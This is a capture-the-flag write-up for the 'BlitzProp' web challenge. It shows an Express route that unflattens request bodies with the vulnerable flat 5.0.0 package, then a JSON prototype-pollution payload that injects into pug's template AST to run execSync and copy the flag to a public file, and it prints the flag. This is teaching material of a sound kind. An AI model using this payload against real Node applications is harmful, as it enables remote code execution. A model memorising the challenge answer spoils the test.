



# BlitzProp
## Description
A tribute page for the legendary alien band called BlitzProp!

## Files
Provided docker environment.

## Looking around
On the main page, we can submit our favourite song from these four choices. From the names we can take hints like `Polluting` and `AST`.



## Code

### `routes/index.js`
```js
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

        if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
                return res.json({
                        'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
                });
        } else {
                return res.json({
                        'response': 'Please provide us with the name of an existing song.'
                });
        }
});
```

## Methodology
We have to include a song name in `/api/submit` request, but we are not restricted with adding our own objects into `JSON`. We also use `pug` as templating engine. Also the request body is `unflatten` using `flat` package. From `package.json` we get the version.

```json
"dependencies": {
    "express": "^4.17.1",
    "flat": "5.0.0",
    "pug": "^3.0.0"
}
```

Version `5.0.0` is vulnerable ([flat-bug](https://github.com/hughsk/flat/issues/105)) to prototype pollution. There is an excellent writeup on `AST, Prototype pollution` and `pug` with provided payload to exploit this vulenrability ([exploit-writeup](https://blog.p6.is/AST-Injection/#Example-1)).

## Exploit
We are going to use `RCE` to write the flag in a file that can be reached from the browser.



```json
{
    "song.name":"ASTa la vista baby",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`cat /app/flag* > /app/static/js/flag.txt`)"
    }
}
```

Result



## Flag
**CHTB{p0llute_with_styl3}**